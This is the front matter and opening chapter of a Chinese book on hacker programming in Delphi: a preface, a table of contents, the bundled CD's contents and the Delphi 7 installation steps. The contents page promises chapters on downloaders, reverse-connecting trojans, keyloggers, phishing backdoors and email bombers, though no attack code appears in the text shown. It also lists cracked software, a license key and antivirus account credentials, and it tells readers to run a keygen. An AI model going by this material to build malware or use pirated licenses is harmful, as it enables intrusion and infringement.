# 黑客编程入门 3

作者：张博


- 和我一起初识 Delphi
- Delphi 基础知识
- VCL 组件编程入门
- 初级黑客工具编写
- 编写一个“下载者”
- 实践进阶之反弹木马编写
- 病毒及远程监控工具的编写



## 作者个人介绍

张博，网名“无敌小龙”，籍贯武汉，联系方式 QQ：5450913，个人 BLOG：http://hi.baidu.com/pespin，对计算机网络安全有较为深入的研究，《黑客X档案》特约编辑，曾经在各类 IT 杂志发表论文和文章近百篇，精通 Windows 下的网络编程，代表作品有网站猎手 3.0 正式版、Delphi 远程控制程序远航者 V1.0。


## 前言

很多人都梦想自己开发黑客工具，但往往不知从何入手；也不知道如何学习，始终徘徊在黑客编程的门外。至于流行的编程工具和语言也很多，C++ 太繁杂；不花上三年五载是无法透彻理解这门语言，更加无法驾驭 VC++ 开发环境的；而 VB 上手容易，可是对一些系统的支持不是很好，比如缺少很多函数的支持；要实现一些底层功能往往要调用 API 函数。于是，笔者编写了这本《DELPHI 黑客编程》，DELPHI 具有 VB 的简单性，同时也具有 VC++ 的强大功能，可谓是编程工具中的集大成者！

和之前的黑客图书不同，本书从编写的角度来介绍编程需要了解的基础知识，比如为了后面的反弹木马的编写，笔者在前面的章节渗透了系统信息获取、进程和窗口操作等等方法。这样，在后面具体进行反弹木马编写的时候就会变得非常轻松。

本书最大的特色，是只要有一点点 DELPHI 或者 VB 基础知识就可以看懂。通过几章的学习后，就能轻松写出属于自己的黑客工具。读者在本书中学习到的不仅仅是黑客编程技术，更可以接触到很多关于网络和系统等各种应用 API 接口，可以在短时间内提高你的编程水平。

考虑到读者朋友有的编程基础知识比较薄弱，所以第一章介绍了编程的基础知识，让大家快速地入门 DELPHI 黑客编程；而这些基础知识和语法是无法满足我们在编程中的具体需要的，所以在第二章和第三章分别介绍了具体的编程技术和 VCL 组件的具体利用；这里采用了每个知识点都实例化的编写思路，力求让读者朋友可以活学知识，让知识能够和实际工具的编写串联起来。在第四章，介绍了一些黑客工具的编写，通过这种各章节的学习，可以让大家初步编写出一些不错的黑客工具，大家通过文章的阅读就能很快地掌握黑客编程的精髓了。至于第五章，则是专门介绍下载者的编写，和一般的下载者编写的介绍思路不同，本章在于通过下载者技术的编写，连带出很多相关知识的介绍，比如 C/S 型下载者，这样大家就会初步知道反弹木马的编写流程了；而最小下载者的编写，则让大家知道了如何使用 DELPHI 编写小体积的程序；至于控制台下载者，让大家初步领略了如何编写 CMD 下运行的工具。本书的第六章是全书的重点章节，使用详细的笔触介绍了三个木马各个功能的实现流程，让大家对神秘的木马编写有了全面的了解，细心的读者只要通过本章的学习就能够编写出一个属于自己的专版反弹木马了。前面介绍了黑客工具和木马的编写，在第七章，笔者就介绍了如何编写病毒防御工具、木马查杀工具，并且针对上兴木马服务端，给出了一个具体的清除器的编写流程。

在阅读本书的过程中，如果你有任何疑问，可以联系作者（作者张博，网名无敌小龙，个人 BLOG：http://hi.baidu.com/pespin，QQ：5450913），也可以到 X 档案的官方论坛进行讨论（www.hackerxfiles.net）。最后，衷心祝愿大家学有所成，能够编写出自己的黑客工具！

## 目录

# 第一章 和我一起初识 Delphi

- **1.1 DELPHI 的介绍和安装** ...... 10
  - 1.1.1 PASCAL 前世今生 ...... 10
  - 1.1.2 DELPHI 安装 ...... 10
- **1.2 认识 DELPHI 编译器** ...... 11
  - 1.2.1 编译器 ...... 12
  - 1.2.2 单元文件 ...... 14
- **1.3 Delphi 编程之旅** ...... 15
  - 1.3.1 第一个程序 ...... 15
  - 1.3.2 生成 EXE 文件 ...... 17
  - 1.3.3 修改程序默认图标 ...... 18
- **1.4 PASCAL 的基础语法** ...... 20
  - 1.4.1 变量常量 ...... 20
  - 1.4.2 程序语句 ...... 22
  - 1.4.3 过程和函数 ...... 30
- **1.5 DELPHI 酷站推荐** ...... 32

# 第二章 Delphi 基础知识

- **2.1 文件操作** ...... 34
  - 2.1.1 基础知识介绍 ...... 34
  - 2.1.2 站长助手生成器（文件操作） ...... 38
  - 2.1.3 搜索文件 ...... 41
- **2.2 注册表操作** ...... 42
  - 2.2.1 注册表基础 ...... 43
  - 2.2.2 关闭天网防火墙 ...... 49
- **2.3 剪贴板操作** ...... 51
- **2.4 获取环境变量** ...... 53
  - 2.4.1 获取 Windows 目录 ...... 53
  - 2.4.2 获取自身路径 ...... 54
  - 2.4.3 获取其它路径 ...... 55
- **2.5 获取系统信息** ...... 56
  - 2.5.1 获取窗口 ...... 56
  - 2.5.2 获取所有磁盘 ...... 58
  - 2.5.3 获得所有进程 ...... 60
  - 2.5.4 获取计算机名称 ...... 61
- **2.6 系统相关操作** ...... 63
  - 2.6.1 更换壁纸 ...... 63
  - 2.6.2 无标题程序的移动 ...... 64
  - 2.6.3 让程序支持文件拖放 ...... 66
  - 2.6.4 获取屏幕分辨率 ...... 68
  - 2.6.5 编写系统托盘程序 ...... 70
  - 2.6.6 Windows 消息操作 ...... 72
  - 2.6.7 关机注销操作 ...... 74
- **2.7 网络相关操作** ...... 76
  - 2.7.1 获取页面的所有超级链接 ...... 77
  - 2.7.2 文件下载 ...... 78
  - 2.7.3 获取指定网页的源代码 ...... 81
  - 2.7.4 检测计算机是否联网 ...... 83
- **2.8 DELPHI 程序之界面美化** ...... 85

# 第三章 VCL 组件编程入门

- 3.1 编写“秘密文件夹” ...... 88
  - 3.1.1 原理分析 ...... 88
  - 3.1.2 程序编写 ...... 89
  - 3.1.3 程序运行 ...... 90
- 3.2 编写一个网马生成器 ...... 91
  - 3.2.1 原理分析 ...... 91
  - 3.2.2 程序编写 ...... 91
  - 3.2.3 程序运行 ...... 93
- 3.3 编写 QQ 信息查询器 ...... 94
  - 3.3.1 原理分析 ...... 94
  - 3.3.2 程序编写 ...... 94
  - 3.3.3 程序运行 ...... 95
- 3.4 编写 IP 地址获取器 ...... 95
  - 3.4.1 原理分析 ...... 96
  - 3.4.2 程序编写 ...... 96
  - 3.4.3 程序运行 ...... 98
- 3.5 编写一个端口扫描器 ...... 98
  - 3.5.1 原理分析 ...... 98
  - 3.5.2 程序编写 ...... 98
  - 3.5.3 程序运行 ...... 100
- 3.6 编写 PING 工具 ...... 100
  - 3.6.1 原理分析 ...... 100
  - 3.6.2 程序编写 ...... 101
  - 3.6.3 程序运行 ...... 102
- 3.7 编写网络时间同步器 ...... 102
  - 3.7.1 原理分析 ...... 103
  - 3.7.2 程序编写 ...... 103
  - 3.7.3 程序运行 ...... 104
- 3.8 硬盘炸弹跟我做 ...... 104
  - 3.8.1 原理分析 ...... 104
  - 3.8.2 程序编写 ...... 104
  - 3.8.3 程序运行 ...... 106
- 3.9 花的嫁衣——给你的软件加上 OEM 界面 ...... 107
  - 3.9.1 程序编写 ...... 107
  - 3.9.2 程序运行 ...... 107

# 第四章 初级黑客工具编写

- 4.1 QQ 强制聊天器 ...... 108
  - 4.1.1 程序编写 ...... 108
  - 4.1.2 程序运行 ...... 109
- 4.2 ALEXA 排名查询器 ...... 109
  - 4.2.1 原理分析 ...... 109
  - 4.2.2 程序编写 ...... 110
  - 4.2.3 程序运行 ...... 112
- 4.3 IP 更新器（FTP） ...... 113
  - 4.3.1 原理分析 ...... 113
  - 4.3.2 程序编写 ...... 113
  - 4.3.3 程序运行 ...... 116
- 4.4 黑客记事本 ...... 116
  - 4.4.1 程序编写 ...... 117
  - 4.4.2 程序运行 ...... 121
- 4.5 网吧破解先锋 ...... 121
  - 4.5.1 程序编写 ...... 122
  - 4.5.2 程序运行 ...... 125
- 4.6 注入漏洞检测程序 ...... 125
  - 4.6.1 原理分析 ...... 125
  - 4.6.2 程序编写 ...... 126
  - 4.6.3 程序运行 ...... 129
- 4.7 邮箱轰炸机 ...... 129
- 4.8 网站后台扫描器 ...... 137
  - 4.8.1 程序编写 ...... 137
  - 4.8.2 程序运行 ...... 141
- 4.9 QQ 登录器 ...... 141
  - 4.9.1 程序编写 ...... 141
  - 4.9.2 程序运行 ...... 144
- 4.10 QQ 登录器钓鱼后门 ...... 144
  - 4.10.1 程序编写 ...... 144
  - 4.10.2 程序运行 ...... 146
- 4.11 黑客加密解密器 ...... 147
  - 4.11.1 程序编写 ...... 147
  - 4.11.2 程序运行 ...... 148

# 第五章 编写一个“下载者”

- 5.1 下载者——普通版 ...... 149
  - 5.1.1 原理分析 ...... 149
  - 5.1.2 程序编写 ...... 150
  - 5.1.3 程序运行 ...... 151
- 5.2 下载者——DLL 版 ...... 151
  - 5.2.1 原理分析 ...... 152
  - 5.2.2 DLL 代码的编写 ...... 152
  - 5.2.3 调用程序代码编写 ...... 154
  - 5.2.4 程序运行 ...... 155
- 5.3 下载者——8KB 版 ...... 156
  - 5.3.1 原理分析 ...... 156
  - 5.3.2 程序编写 ...... 157
  - 5.3.3 程序运行 ...... 159
- 5.4 下载者——控制台版 ...... 159
  - 5.4.1 原理分析 ...... 159
  - 5.4.2 程序编写 ...... 159
  - 5.4.3 程序运行 ...... 160
- 5.5 下载者——远控版 ...... 160
  - 5.5.1 原理分析 ...... 160
  - 5.5.2 服务端代码编写 ...... 161
  - 5.5.3 控制端程序的编写 ...... 165
  - 5.5.4 程序运行 ...... 167
- 5.6 下载者的穿墙技术研究 ...... 168
  - 5.6.1 程序编写 ...... 168
  - 5.6.2 测试一般的下载者 ...... 170
  - 5.6.3 测试可穿墙的下载者 ...... 170
- 5.7 下载者的自删除技术汇总 ...... 171
- 5.8 小结 ...... 174

## 第六章 实践进阶之反弹木马编写

- 6.1 木马的反弹上线 ...... 175
  - 6.1.1 原理分析 ...... 175
  - 6.1.2 被控端程序的编写 ...... 175
  - 6.1.3 控制端程序的编写 ...... 177
  - 6.1.4 程序运行 ...... 179
- 6.2 域名转 IP 地址 ...... 180
  - 6.2.1 程序编写 ...... 180
  - 6.2.2 程序运行 ...... 182
- 6.3 键盘记录程序 ...... 182
  - 6.3.1 编写被控端 ...... 182
  - 6.3.2 编写控制端 ...... 188
  - 6.3.3 程序运行 ...... 190
- 6.4 进程管理工具 ...... 191
  - 6.4.1 编写被控端 ...... 191
  - 6.4.2 编写控制端 ...... 193
  - 6.4.3 程序运行 ...... 196
- 6.5 文件传输功能 ...... 196
  - 6.5.1 原理分析 ...... 196
  - 6.5.2 编写被控端 ...... 196
  - 6.5.3 编写控制端 ...... 198
  - 6.5.4 程序运行 ...... 200
- 6.6 模拟 CMD ...... 201
  - 6.6.1 编写被控端 ...... 201
  - 6.6.2 编写控制端 ...... 204
  - 6.6.3 程序运行 ...... 207
- 6.7 屏幕捕捉的实现 ...... 207
  - 6.7.1 编写被控端 ...... 207
  - 6.7.2 编写控制端 ...... 209
  - 6.7.3 程序运行 ...... 212
- 6.8 进程隐藏 ...... 212
  - 6.8.1 程序编写 ...... 212
  - 6.8.2 程序运行 ...... 221
- 6.9 服务端配置 ...... 221
  - 6.9.1 编写被控端 ...... 221
  - 6.9.2 编写配置端 ...... 222
  - 6.9.3 程序运行 ...... 224

## 第七章 杀毒免疫和查杀工具的编写

- 7.1 病毒免疫工具的编写 ...... 225
- 7.2 自己动手编写杀毒软件 ...... 228
  - 7.2.1 文件遍历的实现 ...... 228
  - 7.2.2 特征码检测技术 ...... 230
  - 7.2.3 全部代码和程序运行 ...... 231
- 7.3 上兴服务端查杀工具的编写 ...... 235
  - 7.3.1 原理分析 ...... 235
  - 7.3.2 程序编写 ...... 235
  - 7.3.3 程序运行 ...... 239

# 光盘目录

## ★黑武连锁★

GreenBrowser 4.7.1016：一个基于 IE 的多窗口浏览器，更拥有更多更好的其他特性，例如：热键、搜索器、鼠标手势、鼠标拖曳、画面过滤、搜索引擎、网页背景色设置、工具条皮肤、代理服务器、自动滚动、自动保存、自动填表、关闭提示。

SlimBrowser V4——是一个基于 IE 内核网络的多站点浏览器。

格式工厂 V1.55：格式工厂是全万能的多媒体格式转换软件。

Offline Browser 5.2.2848：一款离线浏览器，它可以将所有你喜欢的网站下载到你硬盘上，不管是 Web、FTP、HTTPS、MMS 还是 RTSP 站点，同时拥有强大 Web 开发功能，使得你能够创建因特网的浏览器方便的链接、浏览和搜索下载的网页。

APMServ 5.2.6：一键搭建 PHP、MySQL、ASP、Nginx 整合包，一款拥有图形界面可快速搭建 Apache 2.2.9、PHP 5.2.6、MySQL 5.1.28 & 4.0.26、Nginx 0.7.19、Memcached 1.2.4、phpMyAdmin 2.11.9.2、OpenSSL、SQLite、ZendOptimizer，以及 ASP、CGI、Perl 网站服务器平台的绿色软件。

P2P 终结者 V4.01：一套专门用来控制企业网络 P2P 下载流量的网络管理软件。

超级兔子魔法设置 V2.8.1：是一款功能强大的驱动安装利器，可以自动识别当前计算机的驱动信息，推荐最适合安装的驱动，并能一键安装所有驱动，同时它还具有驱动备份和还原功能，让你免后顾之忧。

彗星浏览器 V3.03：由比较著名的 BitComet 作者全新推出的一款轻巧、功能强大和快速的网页浏览器，采用 Firefox 浏览器和极速的页面渲染技术构成。

## ★图书相关★

Borland Delphi 7 豪华包：Borland Delphi 7 Studio Enterprise

删档：V8S3_KM82KO_XN8J0K_EPS33EA_GZK

icoSprite 图标精灵：非常棒的图标制作提取工具，支持 32 位真彩色图标提取和图标制作，软件效果非常不错。

E 文学 2008 SP3.0927 Cracked by Robin：国庆专版，专业级远程控制软件，追逐时尚管理功能，适用于电脑爱好者、家庭、学校、公司、单位远程管理计算机。

Super BusinessSkinForm 1.1 v6.15 For Delphi BCB：是一套专为 Delphi/VC/BCB 帮助你创建 TaskSkin 程序的组件，文本包括色彩、提示、许多小配件数据。

TaskMgr 2[1].8：修正设置模式和 SpeedButton 释放的 Bug，改善设置模式改变菜单阴影，修正了 OpenDialog 的 Bug。

天网防火墙 3.0.0.1005 build 0611 个人版：是由天网安全实验室研发制作给个人和家庭使用的网络安全工具。它根据系统管理员设定的安全规则（Security Rules），对网络提供强大的访问控制、应用过滤、信息过滤等功能。

## ★安全之墙★

深思 PC 功能精灵 V6.07：集优化、清理、黑客防御、QQ 娱乐于一体的综合软件。该软件将不同的功能分成不同的精灵管理，其功能更贴近一般电脑用户的日常需求。

ESET NOD32 防病毒软件：凭借优异表现，ESET NOD32 在国际上屡获殊荣，是唯一一款 51 次通过国际权威防病毒认证 VB100% 的防病毒软件，成为佳绩记录保持者。Username：EAV-06073044 Password：7wkfMhf8f5

安全一号深度文档保护系统 V3.3.0：采用多种保护手段来深度保护您的文档，包括磁盘隐藏、文件夹和文件隐藏，让别人不会想到藏有私人文件；高强度加密文件夹和文件，即使被别人窃取也无法打开；还支持文档加密、备份、硬盘和别处获取，也不怕文件丢失。

Dogma Protector 1.50 简体中文版：一款软件保护系统，支持 Win32 可执行文件 EXE、动态链接库 DLL、ActiveX 控件 OCX 和屏幕保护程序 SCR。它以先进的加密、数据隐藏和其它安全特性来保护您的程序免遭破解。

## ☆学海遨游☆

- 巨硕课堂 Delphi7 编程入门篇
- Delphi7 编程技巧与实例精解
- 正版免费中文虚拟机 VirtualBox 教程
- 破解《佳信客户服务管理软件 V2.10》及笔记分析
- VB 制作动画
- 霓虹换红心 COOLSHOW
- 用 E 语言编写播放器
- ROS 流量控制
- 网页制作与原创吧与飞漫
- Ghost 远控及避免国内拦截

## ★娱乐年华★

- ◎精彩游戏◎
  - Teddy Wars
  - temporal
- ◎三国探索◎
  - 三国之旅



# 第一章 和我一起初识 Delphi

在书店里我们会看过许多关于编程的图书，对于编程初学者来说，这可能会让你感觉到迷茫，不知道该从哪门编程语言下手，更不知道该学习哪些才能编写出类似灰鸽子、黑洞等这类著名的黑客工具。其实，这些黑客工具都是使用 Delphi 语言编写的，因此，对于黑客编程初学者来说，Delphi 语言无疑是个非常不错的选择。

## 1.1 Delphi 的介绍和安装

在开始学习 Delphi 语言前，我们来介绍一下 Delphi 的前世今生，然后再给出 Delphi 的安装方法，同时对 Delphi 的编程文化有个框架式的了解，这些都对于学习编程会有莫大的帮助。

### 1.1.1 Pascal 前世今生

Pascal 语言最初是由瑞士苏黎世理工学院的尼古拉斯·沃斯（Niklaus Wirth）教授在 1971 年设计，作为 Algol 语言（1960 年设计）简化版用于教学目的。在设计 Pascal 时，许多编程语言都已经存在了，但其中只有 FORTRAN、C、Assembler、COBOL 等少数程序语言被广泛地应用。Pascal 这种新语言的灵魂来自于它的语言规则，Pascal 语言规则的管理是通过强健的数据类型概念、强制性的数据类型声明与程序结构化控制来实现的，当时设计 Pascal 的初衷是想把这种语言用作程序设计课程的教学工具。

1983 年，Borland 公司推出了世界闻名的 Pascal 编译器——Turbo Pascal。由于它既简洁功能又强，Turbo Pascal 成为了当时最畅销的编译器之一，在 PC 平台上非常流行。在 Turbo Pascal 中增添了集成开发环境（IDE），在这种开发环境中，程序编写者可以在与 WordStar 兼容的文字编辑器中编辑程序代码，可以运行编译的程序，查看编译错误并直接跳回到包含错误的行中。

或许就现在听起来，上述的这些功能似乎微不足道，但在 Turbo Pascal 之前，程序编写者却是不得不退出代码编辑器返回到 DOS 状态，然后再重新运行命令行编译器，记下错误的代码行，再打开编辑器跳至错误行进行修改，非常繁琐。此外，Borland 公司的 Turbo Pascal 售价只有 49 美元，而 Microsoft 公司的 Pascal 编译器售价却有几百美元。因此，Turbo Pascal 之所以能够取得成功，也归功于 Microsoft 最终放弃了 Pascal 编译器产品。

随着 Turbo Pascal 编译器从第一版发布到第九版，Pascal 语言得到了不断的发展。1995 年，Borland 公司又在 Pascal 的基础上发布了 Delphi，这使得 Pascal 成为了一种可视化编程语言。

Delphi 在很多方面扩展了 Pascal 语言，其中包括了许多面向对象的扩展，这些扩展的风格与 Object Pascal 有所不同，同时 Delphi 也提高了 Borland Pascal with Objects 编译器的性能。Delphi 的官方网站是 http://www.borland.com/ ，有兴趣的读者朋友可以浏览一下，获取关于 Delphi 的最新资讯信息，如图 1.1。

### 1.1.2 Delphi 安装

本小节我们来介绍一下 Delphi 的安装。在光驱中放入 Delphi 安装光盘，或者从网络上下载 Delphi 的安装文件，双击“SETUP.EXE”，就可以开始 Delphi 的安装了。Delphi 目前流行的版本有 Delphi 6 和 Delphi 7，本书我们使用 Delphi 7 来演示如何进行快速的安装，如图 1.2。

在弹出的安装窗口中直接点击“安装”按钮，如图 1.3，就会弹出 Delphi 的安装向导了，如图 1.4。点击“Next”，也就是下一步，然后输入注册码（我们双击运行 Delphi 安装文件 crack 目录中的 keygen.exe 程序，注册机就会自动给出注册码了），如图 1.5。接下来一路点击下一步，就可以完成 Delphi 的安装了。安装完毕后，会提示需要重新启动电脑。重启电脑后，选择“开始”——“程序”下的“BORLAND DELPHI7”，就会成功启动 Delphi 了，如图 1.6。



图 1.1



图 1.2



图 1.3

